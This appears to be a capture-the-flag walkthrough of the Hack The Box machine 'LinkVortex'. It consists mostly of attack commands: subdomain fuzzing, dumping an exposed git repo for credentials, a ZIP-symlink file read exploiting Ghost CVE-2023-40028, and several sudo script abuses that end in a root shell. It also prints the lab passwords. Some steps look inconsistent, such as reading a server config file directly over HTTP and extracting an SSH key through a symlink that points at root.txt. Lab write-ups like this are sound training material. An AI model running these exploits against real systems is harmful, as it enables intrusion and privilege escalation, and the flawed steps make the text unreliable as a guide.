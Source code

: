 # LinkVortex

**Machine Info:**  
- Platform: [HTB](HTB)  
- **IP**: `10.10.11.47`  
- **OS**: [Linux](Linux)  
- **Difficulty**: [Easy](Easy)  
- **Exploits Used:**  
  - Ghost CMS Git repo leak  
  - CVE‑2023‑40028 Ghost “symlink‑in‑zip” file‑read  
  - `clean_symlink.sh` sudo abuse (double‑symlink, TOCTOU, `$CHECK_CONTENT` injection)  

**Open Ports:**  
- SSH 22/tcp  
- HTTP 80/tcp  

**Tools:**  
nmap, ffuf, git‑dumper, curl, zip/unzip, Python 3 (requests, zipfile), sshpass  

---

## Recon 🔍  
```bash
# Scan all ports & services
nmap -p- --min-rate 10000 10.10.11.47
nmap -p 22,80 -sCV       10.10.11.47

# Host‑header fuzzing to find dev subdomain
ffuf -u http://10.10.11.47 -H "Host: FUZZ.linkvortex.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
```

---

## Shell as bob 🐚  
1. **Dump the Git repo**  
   ```bash
   git-dumper http://dev.linkvortex.htb/.git/ source/
   ```
2. **Harvest creds**  
   - In `ghost/core/test/regression/api/admin/authentication.test.js`, password changed to `OctopiFociPilfer45`  
   - Login at `http://linkvortex.htb/ghost` with `admin@linkvortex.htb`  
3. **Exploit CVE‑2023‑40028**  
   ```bash
   # Craft ZIP with symlink:
   ln -s /etc/passwd content/images/evil.png
   zip -y -r poc.zip content/images/evil.png

   # Import via Ghost Admin API (use your session cookie)
   curl -F "importfile=@poc.zip" -b "ghost-admin-api-session=…" \
        http://linkvortex.htb/ghost/api/admin/db

   # Read file:
   curl http://linkvortex.htb/content/images/evil.png
   ```
4. **Extract bob’s SSH credentials**  
   ```bash
   curl -b "ghost-admin-api-session=…" \
        http://linkvortex.htb/var/lib/ghost/config.production.json \
     | jq '.mail.options.auth'
   # → "bob@linkvortex.htb" / "fibber-talented-worth"
   ```
5. **SSH as bob**  
   ```bash
   sshpass -p fibber-talented-worth ssh bob@linkvortex.htb
   cat user.txt
   ```

---

## Shell as root 👑  
1. **Check sudo rights**  
   ```bash
   sudo -l
   # NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
   ```
2. **Exploit `clean_symlink.sh`**  
   - **Double‑symlink**  
     ```bash
     ln -s /root/root.txt /home/bob/.cache/b
     ln -s /home/bob/.cache/b /home/bob/.cache/a.png
     CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png
     ```
   - **TOCTOU race**  
     ```bash
     while true; do ln -sf /root/root.txt /var/quarantined/x.png; done
     ln -s /some/other.png /dev/shm/x.png
     CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /dev/shm/x.png
     ```
   - **`$CHECK_CONTENT` injection**  
     ```bash
     ln -s dummy.png a.png
     CHECK_CONTENT=bash sudo bash /opt/ghost/clean_symlink.sh a.png
     # drops into a root shell
     ```
3. **SSH as root**  
   ```bash
   # Or extract root’s SSH key:
   CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png > root_key
   chmod 600 root_key
   ssh -i root_key root@linkvortex.htb
   cat root.txt
   ```

---

## Beyond Root 🔧  
- **Apache security hardening** in `/etc/apache2/sites-enabled/vhost.conf`:  
  ```apache
  ServerSignature Off
  ServerTokens Prod
  ```  
  Suppresses version info in `Server:` header and 404 footer.  

---

## Actions Learned 🎓  
- Host‑header subdomain discovery  
- Git repo enumeration & credential harvesting  
- Ghost CMS zip‑symlink file‑read (CVE‑2023‑40028)  
- Sudo script exploitation via symlink attacks & env injection  
- Apache `ServerTokens`/`ServerSignature` security directives  

---

## References 🔗  
- [CVE‑2023‑40028 Ghost symlink‑in‑zip vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-40028)  
- Ghost Admin API `/db` endpoint docs  
- Apache docs on `ServerTokens` & `ServerSignature`   